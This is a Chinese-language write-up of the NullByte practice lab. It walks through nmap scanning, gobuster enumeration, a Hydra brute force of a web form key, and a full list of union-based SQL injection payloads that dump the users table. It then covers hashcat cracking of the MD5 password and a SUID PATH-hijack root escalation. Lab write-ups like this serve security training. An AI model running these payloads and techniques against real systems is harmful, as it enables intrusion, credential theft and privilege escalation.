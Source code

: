 # NullByte 靶场

## 主机发现

```
sudo nmap -sn 10.10.10.10
```

![[Pasted image 20250508234837.png]]

靶机的主机为 10.10.10.7

## 服务识别

使用 nmap 对靶机进行扫描，寻找靶机开放的端口以便于进行更进一步的渗透测试

扫描开放的端口
```
sudo nmap --min-rate 10000 -p- 10.10.10.7
```

![[Pasted image 20250508235112.png]]

扫描开放端口的基本信息，并将结果保存到本地以便于随时观看
```
sudo nmap -sT -sC -sV -p80,111,777,48675 10.10.10.7 -oA nmap/Scan
```

![[Pasted image 20250508235518.png]]

使用 nmap 进行默认的漏洞脚本扫描，并将结果保存到本地
```
sudo nmap --script=vuln -p80,111,777,48675 10.10.10.7 -oA nmap/Script
```

经过分析发现靶机运行的是 Apache 服务；
777 端口运行的是 SSH 服务，

暂时没有新的发现，先访问 80 端口

## WEB渗透

### 80 端口渗透

打开 80 页面发现只有一张图片和一句话

![[Pasted image 20250508235428.png]]

查看源码发现这是一个 gif 文件，把他下载下来

```
wget http://10.10.10.7/main.git
```

### 目录爆破

使用 gobuster 执行目录爆破，尝试发现新的目录

```
sudo gobuster dir -u http://10.10.10.7 -w /usr/share/dirb/wordlists/common.txt

```

![[Pasted image 20250509000034.png]]

逐个尝试发现只有 /phpmyadmin 是能访问的，并且这是一个 sql 管理后台登入界面。

尝试弱密码和万能密码登入均无效，暂时放弃。

### gif 寻找信息

拿到 gif 图片，先使用 strings 查看有没有有价值的字符串

```
strings main.gif
```

发现 kzMb5nVYJw 这个字符串很可疑，可能有突破的价值

![[Pasted image 20250509000536.png]]

继续使用 Exiftool 发掘 gif 剩余价值

```
exiftool main.gif
```

![[Pasted image 20250509000751.png]]

Comment 处写着 kzMb5nVYJw ，说明这串字符串极有可能是突破口，使用 hash-identifier 没有识别出来是什么加密，单串字符串是账号密码的可能性也不大，因此尝试作为地址能不能有新发现

![[Pasted image 20250509001118.png]]

查看源码

![[Pasted image 20250509001252.png]]

提示这个密码不复杂

### Hydra 破解 hash

输入框尝试弱密码 admin 报错

![[Pasted image 20250509001432.png]]

查看网络发现这是一个 post 请求，使用 Hydra 对 hash 进行破解

```
sudo hydra -l "key" -P /usr/share/wordlists/rockyou.txt 10.10.10.7 http-form-post "/kzMb5nVYJw/index.php:key=^PASS^:invalid key"
```

 1. **路径**：`/kzMb5nVYJw/index.php`（表单提交地址）。
    
2. **参数**：`key=^PASS^`（将 `^PASS^` 替换为字典中的密码）。
    
3. **失败标记**：`invalid key`（服务器返回的错误提示文本）。

![[Pasted image 20250508214915.png]]

得到密码是 elite ，
登入后发现是一个 sql 查询

## sql 注入

输入 admin 发现提示寻找成功

![[Pasted image 20250509002207.png]]

尝试过后发现注入点为 " ，
进行测试发现字段为 3 ，
输出点为 
`" union select 1,2,3 -- -`
中的 3 ，
完整的测试代码如下

```
"

" or 1=1 -- -

" order by 3 -- -

" union select 1,2,3 -- -

" union select 1,2,version() -- -

" union select 1,2,database() -- -

" union select 1,2,user() -- -

" union select 1,2,TABLE_SCHEMA from INFORMATION_SCHEMA.tables -- -

" union select 1,2,table_name from INFORMATION_SCHEMA.tables -- -

" union select 1,2,column_name from INFORMATION_SCHEMA.columns where table_name='users' -- -

" union select 1,2,user from users -- -

" union select 1,2,pass from users -- -

" union select 1,2,position  from users -- -
```

在完整地测试过后在 users 中的 pass 里发现一串 base64 （base64 更多凭经验判断， hash-identifier 无法识别），

![[Pasted image 20250509002812.png]]

解密后得到一串字符串
`c6d6bd7ebf806f43c76acc3681703b81`

使用 hash-identifier 发现是 MD5 加密，使用 hashcat 破解它

```
vim hash/hash.lst

sudo hashcat -m 0 -a 0 hash/hash.lst /usr/share/wordlists/rockyou.txt
```

解密出来
`c6d6bd7ebf806f43c76acc3681703b81:omega`

## Linux 提权

使用 ssh 登入靶机

```
sudo ssh ramses@10.10.10.7 -p777 
```

查看历史记录

```
history
```

![[Pasted image 20250508230256.png]]

发现 /var/www 目录可能藏着提权的文件，
根据提示进行操作

```
cd /var/www
cd backup/
ls
cat readme.txt
```

![[Pasted image 20250509003404.png]]

没什么价值，查看文件权限

```
ls -liah
```

![[Pasted image 20250509003501.png]]

提示文件可能有 s 位执行权限，查看含有 s 位执行权限的文件

```
find / -perm -u=s -type f 2>/dev/null
./procwatch
```

![[Pasted image 20250509003630.png]]

果然有，运行查看结果

![[Pasted image 20250509003701.png]]

SUID 环境变量提权

```
ln -s /bin/sh ps

export PATH=.:$PATH

echo $PATH

./procwatch 
```

拿到 root 权限

![[Pasted image 20250509003911.png]]

## 总结

这台靶机不难，新手可以用来梳理思路